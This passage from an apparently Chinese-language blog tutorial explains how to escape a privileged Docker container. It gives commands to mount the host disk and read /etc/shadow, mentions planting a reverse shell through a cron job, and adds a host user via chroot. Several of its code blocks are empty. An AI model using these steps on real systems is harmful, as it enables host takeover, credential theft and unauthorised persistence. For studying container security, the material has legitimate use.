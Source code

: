 # 检查cgroup的挂载  
```
```  
  
或者：  
```
```  
  
你应该能看到类似以下内容：  
```
```  
  
这表示  
cgroup  
已启用，且系统可能支持多个控制器。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vTLDcxb9m5FIiaQvUz7kibG5jhqn78gw9LhiaSicSmv0jgzNqW5mfuKX9Zg5lQQkHECVwYKLztzYFTTQLN2HoicfGSg/640?wx_fmt=png&from=appmsg "")  
  
**02**  
  
**方法二 （挂载磁盘设备）**  
  
查看挂载磁盘设备  
fdisk -l  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/vTLDcxb9m5FIiaQvUz7kibG5jhqn78gw9L9jOWnJ7R6OiaX6cCkoCiaeuawIsQticpQ2wVRR4kUQ54UFbJmzpkUJNNQ/640?wx_fmt=png&from=appmsg "")  
  
在容器内部执行以下命令，将宿主机文件挂载到 /test 目录下  
  
mkdir /test && mount /dev/sda1 /test  
  
尝试访问宿主机 shadow 文件，可以看到正常访问  
cat /test/etc/shadow  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vTLDcxb9m5FIiaQvUz7kibG5jhqn78gw9LcDm2QBn2zgqL5EVjpsr9a0UqpqQLUSjm6LsQBANZ9IeEuYw8SZ4ZDg/640?wx_fmt=png&from=appmsg "")  
  
也可以在定时任务中写入反弹 shell  
  
这里的定时任务路径是 Ubuntu 系统路径，不同的系统定时任务路径不一样  
```
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vTLDcxb9m5FIiaQvUz7kibG5jhqn78gw9LhiaSicSmv0jgzNqW5mfuKX9Zg5lQQkHECVwYKLztzYFTTQLN2HoicfGSg/640?wx_fmt=png&from=appmsg "")  
  
**03**  
  
**方法三（添加新用户）**  
  
  
mount /dev/sda1 /mnt  
  
  
chroot /mnt adduser john  
  
  
通过新添加的用户登录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vTLDcxb9m5FIiaQvUz7kibG5jhqn78gw9LGDCGc8f1MPGo9pXb3FcOceR5gqrHBfuibwS0qXSMrUeR9cGVxqic6obA/640?wx_fmt=png&from=appmsg "")  
  